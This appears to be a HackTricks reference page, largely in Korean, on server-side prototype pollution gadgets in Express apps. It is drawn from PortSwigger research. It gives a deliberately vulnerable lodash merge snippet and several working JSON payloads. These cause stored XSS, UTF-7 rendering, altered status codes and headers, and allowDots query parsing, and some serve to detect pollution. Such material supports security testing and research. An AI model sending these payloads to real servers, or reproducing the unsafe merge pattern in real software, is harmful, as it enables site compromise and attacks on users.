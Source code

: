 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**자세한 내용은** [**원본 연구를 참조하세요**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON 콘텐츠 유형을 HTML로 변경

**JSON 콘텐츠 유형 응답**을 사용하는 Express 앱에서 JSON을 반영하는 경우:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
이 경우 JSON 콘텐츠 유형으로 XSS는 일반적으로 불가능합니다. 그러나 프로토타입 오염을 통해 **Express가 HTML 응답을 제공하도록 혼란을 줄 수 있습니다.** 이 취약점은 애플리케이션이 **`res.send(obj)`**를 사용하고 application/json 콘텐츠 유형으로 본문 파서를 사용하는 데 의존합니다.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** 및 **`_body`** 속성을 **오염시킴으로써**, **Express가 HTML 콘텐츠 유형을 제공하고** `_body` 속성을 반영하게 할 수 있으며, 이로 인해 저장된 XSS가 발생할 수 있습니다.

### UTF7 렌더링

Express가 **UTF-7 콘텐츠를 렌더링하도록** 만들 수 있습니다:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## 안전한 스캐닝 기술

### JSON 공백

다음 PP는 JSON 내부의 속성에 추가 공백을 만들어 기능이 중단되지 않도록 합니다:
```json
{"__proto__":{"json spaces": " "}}
```
그럼 반사된 JSON은 다음과 같이 보입니다:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

다음 PP 가젯은 서버가 HTTP 헤더를 반환하도록 합니다: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
It requires the **CORS 모듈이 설치되어야 합니다**

### **OPTIONS 메서드**

다음 페이로드를 사용하면 **OPTIONS 응답에서 메서드를 숨길 수 있습니다**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **상태**

다음 PP 페이로드를 사용하여 **반환된 상태 코드**를 변경할 수 있습니다:
```json
{"__proto__":{"status":510}}
```
### 오류

원시 값(예: 문자열)으로 프로토타입에 할당하면 **프로토타입은 객체여야 하므로 no-op 작업이 발생합니다**. `Object.prototype` 자체에 프로토타입 객체를 할당하려고 하면 **예외가 발생합니다**. 우리는 이 두 가지 동작을 사용하여 **프로토타입 오염이 성공했는지 감지할 수 있습니다**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

응용 프로그램이 응답에 객체를 포함할 때, **`__proto__`와 함께 비정상적인 이름의 속성을 생성하는 것**은 유용할 수 있습니다. 특히, **응답에 비정상적인 속성만 반환되는 경우** 이는 응용 프로그램의 취약점을 나타낼 수 있습니다:
```json
{"unusualName":"value","__proto__":"test"}
```
또한, Lodash와 같은 라이브러리가 사용되는 시나리오에서는 프로토타입 오염(PP)을 통해 속성을 설정하고 객체 내부에서 직접 설정하는 것이 또 다른 진단 접근 방식을 제공합니다. 이러한 속성이 응답에서 생략되면, Lodash가 병합하기 전에 대상 객체에서 속성의 존재를 확인하고 있음을 나타냅니다:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Express에는 **쿼리 문자열 매개변수**에서 객체를 **생성할 수 있는** 옵션이 있습니다.\
이것은 확실히 **프로토타입 오염 취약점**을 악용하기 위한 버그 **체인**에서 사용할 수 있습니다.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz`는 Node에서 객체를 생성합니다.**

## References

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
